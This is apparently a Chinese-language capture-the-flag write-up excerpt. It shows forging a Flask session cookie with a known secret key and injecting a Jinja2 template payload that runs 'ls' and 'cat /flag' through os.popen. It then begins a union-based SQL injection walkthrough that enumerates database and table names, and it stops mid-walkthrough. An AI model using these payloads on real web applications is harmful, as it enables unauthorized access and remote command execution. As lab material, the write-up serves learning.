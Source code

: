 工具：[flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager)

```cmd
D:\tools\exploit\python\flask-session-cookie-manager>python flask_session_cookie_manager3.py decode -c "eyJyb2xlIjp7ImZsYWciOiJ5b3VyX2ZsYWdfaGVyZSIsImlzX2FkbWluIjowfX0.ZvZ8IQ.B9Q1a7gFQvzs4Q3bGldXuiGHULg" -s "0day_joker"

D:\tools\exploit\python\flask-session-cookie-manager>python flask_session_cookie_manager3.py encode -s "0day_joker" -t "{'role': {'flag': '{{lipsum.globals["os"].popen("ls").read()}}', 'is_admin': 1}}"

D:\tools\exploit\python\flask-session-cookie-manager>python flask_session_cookie_manager3.py encode -s "0day_joker" -t "{'role': {'flag': '{{lipsum.globals["os"].popen("ls /").read()}}', 'is_admin': 1}}"

D:\tools\exploit\python\flask-session-cookie-manager>python flask_session_cookie_manager3.py encode -s "0day_joker" -t "{'role': {'flag': '{{lipsum.globals["os"].popen("cat /flag").read()}}', 'is_admin': 1}}"
```

通过session伪装使**is_admin==1**并通过**ssti注入**即可得到flag

ssti注入语句

```python
{'role': {'flag': '{{lipsum.globals["os"].popen("cat /flag").read()}}
```



### **[Week2]自助查询**

**sql注入语句拼接题**

题目给出的语句：

```sqlite
SELECT username,password FROM users WHERE id = ("
```

通过sql联合注入即可解决本题

第一步：**查询数据库名**

```sqlite
-1") union select 1,database()
```

可得

```sqlite
| Username | Password |
| -------- | -------- |
| 1        | ctf      |
```

第二步：**查询表名**

```sqlite
-1") union select  1,table_name from information_schema.tables where table_schema='ctf'
```
